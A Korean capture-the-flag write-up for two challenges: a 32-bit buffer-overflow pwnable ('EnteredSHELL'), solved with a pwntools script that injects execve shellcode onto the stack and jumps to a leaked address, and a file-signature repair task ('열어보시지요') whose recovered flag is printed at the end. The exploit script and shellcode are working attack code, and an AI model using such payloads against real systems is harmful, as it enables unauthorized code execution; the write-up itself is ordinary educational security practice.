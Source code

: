EnteredSHELL, 열어보시지요
=================
EnteredSHELL
---------------------------
이 문제는 포너블 분야의 문제로 수준은 LOB 1단계 급 수준이다.

파일은 32bit로 컴파일 되어있으며, 보호기법은 걸려있지 않다.

main함수를 보자.

![텍스트](https://i.imgur.com/utNEvRC.png)

vuln 함수를 호출해준다. 바로 vuln 함수를 보자.

![텍스트](https://i.imgur.com/MDx4rQm.png)

gets로 s변수에 입력을 받으므로 Buffer overflow가 일어난다는 사실이 자명하다.

심지어 이 파일은 NX도 걸려있지 않고, canary도 걸려있지 않으므로, 스택으로 eip을 돌려서shellcode를 실행시켜주면 될 것이다.

하지만 실 서버에는 ASLR이 걸려있기 때문에 stack으로 eip를 돌리는 게 힘들 것이라고 생각을 할 수 있다. 그렇지만, printf로 stack address를 스스로 leak 해준다.

그러므로 시나리오는 stack에 gets로 값을 받음을 이용, shellcode를 stack에 넣어주고, eip를 leak된 값을 이용해서 stack address로 옮겨주면 된다.	끝

~~~
from pwn import *
p = process('./EnteredSHELL')
#p = remote('52.78.156.241', 7777)

p.recvuntil(' : ')
leak = int(p.recv()[:8],16)
shell = '\x31\xc0\x50\xbe\x2e\x2e\x72\x67\x81\xc6\x01\x01\x01\x01\x56\xbf\x2e\x62\x69\x6e\x47\x57\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'
pay = shell + 'a'*234 + p32(leak)
log.info('stack : ' + hex(leak))
p.sendline(pay)
p.recvuntil(p32(leak) + '\n')
p.interactive()
~~~

![텍스트](https://imgur.com/zP1JqEM.png)

서버가 닫혀있어서 플래그는 모르겠다.

![텍스트](https://imgur.com/8xRi18e.png)

열어보시지요
---------------------------

이 문제는 리버싱 분야의 문제로 출제됐다.

사실 포렌식 문제라고 보는 게 더 맞을 거 같다는 생각이 든다.

![텍스트](https://imgur.com/vsYymB2.png)

처음에 zip 압축 풀고 폴더 열어보면 이렇게 “열어보시지요”라는 파일들이 각각의 파일 확장자를 가진 상태로 주어져있다. 

그 상태에서 파일을 열어보면 잘 열리는 파일들이 있다.

![텍스트](https://imgur.com/C2gakgK.png)

이런 식으로 아마 pdf, pptx파일은 잘 열린다.

![텍스트](https://imgur.com/JjWDrNB.png)

하지만 그 두 파일이 아닌 나머지 파일은 이런 식으로 열리지 않는다.

열리지 않는 이유는 간단하게 맨 앞 몇 바이트 부분을 차지하는 파일 시그니처 부분이 다른 값으로 바뀌어져 있기 때문이다.

![텍스트](https://imgur.com/y1DUHGi.png)

위 사진과 같이 hxd로 파일들을 확인해본다면, 왼쪽의 원래 확장자와 맞는 파일 시그니처와 오른쪽의 받은 파일에 시그니처가 값이 다르다.

그래서 앞 부분 파일 시그니처의 몇 바이트 부분을 확장자에 맞는 값으로 바꿔주면 파일이 열리게 된다.

![텍스트](https://imgur.com/lQwP2Lj.png)

이런식으로 값을 바꿔주게 된다면, 파일이 열리고 플래그의 일부분이 보이게 될 것이며, 모든 파일을 순서대로 읽어온다면 모든 플래그를 읽어올 수 있다.

![텍스트](https://imgur.com/sNME4LW.png)

이렇게 열리지 않던 파일이 열리게 됨으로써 문제가 풀리게 된다.

# FLAG : 1_m!Ss__the__moooHaaaanDOJEON
